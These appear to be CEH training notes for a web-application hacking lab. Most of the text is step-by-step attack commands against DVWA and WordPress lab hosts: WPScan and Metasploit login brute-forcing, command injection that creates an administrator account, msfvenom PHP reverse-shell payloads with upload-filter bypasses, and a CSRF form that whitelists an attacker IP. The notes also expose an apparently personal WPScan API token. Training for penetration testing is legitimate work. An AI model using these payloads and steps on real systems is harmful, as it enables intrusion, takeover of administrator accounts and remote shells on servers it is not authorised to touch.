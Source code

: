 # 14 - Hacking Web Apps

## **Module 14: Hacking Web Applications**

<details>

<summary>EMPTY</summary>



</details>

#### Wordpress

* wpscan --url http://10.10.10.12:8080 --enumerate u

#### WP password bruteforce

* msfconsole
* use auxiliary/scanner/http/wordpress\_login\_enum

#### RCE&#x20;

* ping 127.0.0.1 | hostname | net user

### **Perform a Brute-force Attack using Burp Suite**

* Set proxy for browser: 127.0.0.1:8080
* Burpsuite
* Type random credentials
* capture the request, right click-\&gt;send to Intrucder
* Intruder-\&gt;Positions
* Clear $
* Attack type: Cluster bomb
* select account and password value, Add $
* Payloads: Load wordlist file for set 1 and set 2
* start attack
* **filter status==302**
* open the raw, get the credentials
* recover proxy settings

{% content-ref url="../burp-suite.md" %}
[burp-suite.md](../burp-suite.md)
{% endcontent-ref %}

### **Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications**

* Log in a website, change the parameter value (id )in the URL
* Conduct a XSS attack: Submit script codes via text area

### **Enumerate and Hack a Web Application using WPScan and Metasploit**

* **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH) **--plugins-detection aggressive --enumerate u**
  * **--enumerate u: Specify the enumeration of users**
  * **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
  * **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
* service postgresql start
* msfconsole
* **use auxiliary/scanner/http/wordpress\_login\_enum**
* show options
* **set PASS\_FILE password.txt**
* **set RHOST 10.10.10.16**
* **set RPORT 8080**
* **set TARGETURI** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH)
* **set USERNAME admin**
* run
* Find the credential, and use URL http://\[IP Address of Windows Server 2012]:8080/CEH/wp-login.php to login.

{% content-ref url="../wpscan.md" %}
[wpscan.md](../wpscan.md)
{% endcontent-ref %}

### **Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)**

* If found command injection vulnerability in an input textfield
* \| hostname
* \| whoami
* **| tasklist| Taskkill /PID /F**
  * **/PID: Process ID value od the process**
  * **/F: Forcefully terminate the process**
* \| dir C:\\
* **| net user**
* **| net user user001 /Add**
* **| net user user001**
* **| net localgroup Administrators user001 /Add**
* Use created account user001 to log in remotely

### File Upload Vulnerability – All Levels DVWA

#### Payload Creation

* `msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw` | create a raw php code
* Copy the code in a text file and save as .php

#### Low Level Exploitation

* Upload the file | note the path /dvwa/hackable/uploads/.php
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type exploit Browse link of file to start meterpreter session.

#### Medium Level Exploitation

* Rename file as .php.jpg
* While uploading, intercepting with burp and rename back to .php
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit`
* Browse link of file to start meterpreter session.

#### High Level Exploitation

* Open the .php file and add code GIF98 at start and save file as .jpg
* Upload file
* Now go to command execution tab and use command **\<Some IP>||copy C:\wamp64\www\DVWA\hackable\uploads\<filename>.jpg C:\wamp64\www\DVWA\hackable\uploads\shell.php**
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11` Start listener, type `exploit`
* Browse link of file to start meterpreter session.

## Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of web security vulnerability and attack. In a CSRF attack:

1. Attackers trick users into unknowingly making malicious requests to a web application they're already authenticated on, often by embedding malicious code in a website, email, or other web content.
2. The victim's browser, while authenticated, sends the unauthorized request to the target web application without the user's consent.
3. The web application, unable to distinguish between legitimate and forged requests, processes the request as if it came from the authenticated user.
4. This can lead to actions like changing account settings or making financial transactions without the user's knowledge or consent.

Here below an example to exploit it.

* Open http://10.10.10.12:8080/CEH/wp-login.php | admin:qwerty@123
* Plugins -> Installed Plugins -> Firewall 2 -> Settings -> View Whitelisted IP
* Run command `wpscan -u http://10.10.10.12:8080/CEH --enumerate vp` | vp vulnerable plugins&#x20;
* Create a form with code
* Save as \<filename.html>

```html
<form method="POST" action="http://10.10.10.12:8080/CEH/wp-admin/options-general.php?
page=wordpress-firewall-2%2Fwordpress-firewall-2.php">
<script>alert("As an Admin, To enable additional security to your Website. Click Submit")</script>
<input type="hidden" name="whitelisted_ip[]" value="10.10.10.11" >
<input type="hidden" name="set_whitelist_ip" value="Set Whitelisted IPs" class="button-
secondary">
<input type="submit">
</form>
```

* Get victim to run it.

## Additional Resources

### Web Scanners

{% embed url="https://geekflare.com/nikto-webserver-scanner/" %}

{% embed url="https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.htmlhttps://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/https://linuxhint.com/wpscan_wordpress_vulnerabilities_scan/" %}

{% embed url="https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/" %}

{% embed url="https://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/" %}

#### YT videos

[https://www.youtube.com/watch?v=K78YOmbuT48](https://blog.clusterweb.com.br/?p=1297https://hackertarget.com/nikto-tutorial/https://geekflare.com/nikto-webserver-scanner/https://www.youtube.com/watch?v=K78YOmbuT48https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.htmlhttps://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/https://linuxhint.com/wpscan\_wordpress\_vulnerabilities\_scan/https://www.youtube.com/watch?v=SS991k5Alp0https://www.youtube.com/watch?v=MtyhOrBfG-Ehttps://www.youtube.com/watch?v=sQ4TtFdaiRAhttps://www.exploit-db.com/docs/english/45556-wordpress-penetration-testing-using-wpscan-and-metasploit.pdf?rsshttps://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/https://www.youtube.com/watch?v=BTGP5sZfJKYhttps://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86https://www.hackingarticles.in/comprehensive-guide-on-dirb-tool/)[\
\
https://www.youtube.com/watch?v=SS991k5Alp0\
\
https://www.youtube.com/watch?v=MtyhOrBfG-E\
\
https://www.youtube.com/watch?v=sQ4TtFdaiRA\
\
https://www.youtube.com/watch?v=BTGP5sZfJKY\
\
](https://blog.clusterweb.com.br/?p=1297https://hackertarget.com/nikto-tutorial/https://geekflare.com/nikto-webserver-scanner/https://www.youtube.com/watch?v=K78YOmbuT48https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.htmlhttps://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/https://linuxhint.com/wpscan\_wordpress\_vulnerabilities\_scan/https://www.youtube.com/watch?v=SS991k5Alp0https://www.youtube.com/watch?v=MtyhOrBfG-Ehttps://www.youtube.com/watch?v=sQ4TtFdaiRAhttps://www.exploit-db.com/docs/english/45556-wordpress-penetration-testing-using-wpscan-and-metasploit.pdf?rsshttps://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/https://www.youtube.com/watch?v=BTGP5sZfJKYhttps://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86https://www.hackingarticles.in/comprehensive-guide-on-dirb-tool/)
